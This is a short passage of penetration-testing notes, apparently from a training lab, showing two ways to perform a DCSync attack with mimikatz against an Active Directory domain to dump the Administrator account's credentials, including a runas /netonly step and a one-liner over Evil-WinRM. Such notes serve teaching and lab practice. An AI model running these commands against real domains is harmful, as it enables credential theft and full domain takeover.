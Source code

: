 ```cmd-session
runas /netonly /user:$domain\$userSamAccountName powershell
# Example:
# runas /netonly /user:INLANEFREIGHT\adunn powershell
```

And now, from powershell:

```powershell
.\mimikatz.exe

#########
# mimikatz command
########

lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```

#### Way #2

If we have access to the host with an user who has DCSync privileges (DS-Replication-Get-Changes and the DS-Replication-Get-Changes-All privilege) on the domain, we can run from powershell the attack in one line:

```powershell
# From my Evil-WinRm Connection:
.\mimikatz.exe privilege::debug "lsadump::dcsync
/domain:$domain /user:Administrator" exit
```

